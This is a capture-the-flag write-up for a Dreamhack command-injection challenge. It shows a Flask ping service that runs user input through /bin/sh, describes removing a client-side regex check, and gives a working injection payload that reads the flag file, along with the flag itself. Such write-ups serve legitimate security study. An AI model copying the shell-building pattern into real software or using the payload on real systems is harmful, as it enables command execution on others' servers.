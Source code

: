 ```yaml
---
title: command-injection-1
author: thanguyen165
date: 2023-01-01 07:00:00 +0700
categories: [Practice, dreamhack]
tags: [Web Exploitation, dreamhack]
---
```


* Level: 1
* Link: [https://dreamhack.io/wargame/challenges/44/](https://dreamhack.io/wargame/challenges/44/)

## Description

> A service that sends ping packets to a specific Host.
>
> Acquire the flag through Command Injection. The flag is located in ```.flag.py```

### Attached

```python
#!/usr/bin/env python3
import subprocess

from flask import Flask, request, render_template, redirect

from flag import FLAG

APP = Flask(__name__)


@APP.route('/')
def index():
    return render_template('index.html')


@APP.route('/ping', methods=['GET', 'POST'])
def ping():
    if request.method == 'POST':
        host = request.form.get('host')
        cmd = f'ping -c 3 "{host}"'
        try:
            output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5)
            return render_template('ping_result.html', data=output.decode('utf-8'))
        except subprocess.TimeoutExpired:
            return render_template('ping_result.html', data='Timeout !')
        except subprocess.CalledProcessError:
            return render_template('ping_result.html', data=f'an error occurred while executing the command. -> {cmd}')

    return render_template('ping.html')


if __name__ == '__main__':
    APP.run(host='0.0.0.0', port=8000)

```

## Analyzation

When receiving request, the server pings without checking
```sh
ping -c 3 "{host}"
```

This is a command injection. It can be easily solved by

```
"; cat "flag.py
```

But it did not work! It kept saying
```
Please match the requested format.
```

Check the source code of ```ping.html``` (by inspect tool)
```html
<h1>Let's ping your host</h1><br/>
<form method="POST">
  <div class="row">
    <div class="col-md-6 form-group">
      <label for="Host">Host</label>
      <input type="text" class="form-control" id="Host" placeholder="8.8.8.8" name="host" pattern="[A-Za-z0-9.]{5,20}" required>
    </div>
  </div>

  <button type="submit" class="btn btn-default">Ping!</button>
</form>
```

This is the regex
```html
<input pattern="[A-Za-z0-9.]{5,20}" required>
```

(check [regex101.com](https://regex101.com/) to understand the regex)

So we need to do something with it. Fortunately, it is in client side!

## Solution

Use inspect tool, delete the regex checking above. Then input the payload

```
"; cat "flag.py
```

The flag is
```
DH{pingpingppppppppping!!}
```